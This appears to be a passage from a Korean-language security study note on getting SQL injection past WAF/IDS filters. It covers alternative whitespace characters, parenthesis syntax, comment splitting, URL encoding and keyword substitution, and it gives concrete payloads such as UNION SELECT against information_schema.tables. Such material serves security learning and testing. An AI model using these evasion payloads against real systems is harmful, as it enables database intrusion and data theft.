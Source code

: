 다음 문자는 공백으로 사용할 수 있음.<br><br>

![스크린샷 2024-04-17 오후 2 31 34](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/6e460be1-4209-415c-b762-5e5ca24c0d0f)<br><br>


예 :<br>
`'%0A%09UNION%0CSELECT%A0NULL%20%23`<br><br>

공백을 사용하지 않으려면 괄호를 사용할 수도 있음.<br><br>

![스크린샷 2024-04-17 오후 2 31 55](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/b1d2f79e-7522-4237-b6d3-54a87f7a67dc)<br><br>


예 :<br>
`UNION(SELECT(column)FROM(table))`<br><br>

**② AND/OR 뒤에 허용되는 중간 문자열**<br><br>

![스크린샷 2024-04-17 오후 2 32 24](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/abb3eb20-9560-4e48-ad81-4dc17033e743)<br><br>


예 :<br>
`SELECT 1 FROM dual WHERE 1=1 AND-+-+-+-+~~((1))`<br><br>

노트 :<br>
DUAL 테이블은 테스트에 사용할 수 있는 더미 테이블임.<br><br>

**③ 주석으로 난독화**<br><br>

WAF/IDS 를 우회하기 위해 주석을 사용하여 쿼리를 분할할 수 있음.<br>
<p># 또는 -- 와 같은 개행 문자를 사용하여 쿼리를 별도의 줄로 나눌 수 있음.</p><br><br>

예 :<br>
`1'#`<br>
`AND 0--`<br>
`UNION# I am a comment!`<br>
`SELECT@tmp:=table_name x FROM--`<br>
`information_schema`.tables LIMIT 1#`<br><br>

URL 인코딩은 다은과 같이 나타냄 :<br>
`1'%23%0AAND 0--%0AUNION%23 I am a comment!%0ASELECT@tmp:=table_name x FROM--%0A`information_schema`.tables LIMIT 1%23`<br><br>

특정 함수는 주석과 공백으로 난독화할 수 있음.<br>
`VERSION/**/%A0 (/*comment*/)`<br><br>

**④ 인코딩**<br><br>

주입을 인코딩하면 WAF/IDS 우회에 유용할 때도 있음.<br><br>

![스크린샷 2024-04-17 오후 2 33 56](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/70bae8cc-b287-4b5f-bd03-a840fdc562b5)<br><br>


**⑤ 키워드 피하기**<br><br>

IDS/WAF 가 특정 키워드를 차단하는 경우 인코딩을 사용하지 않고 다른 키워드를 사용하는 방법이 있음.<br><br>

`information_schema.tables`<br><br>

![스크린샷 2024-04-17 오후 2 57 54](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/1101bf45-faee-48ba-a978-9439699e2304)<br><br>
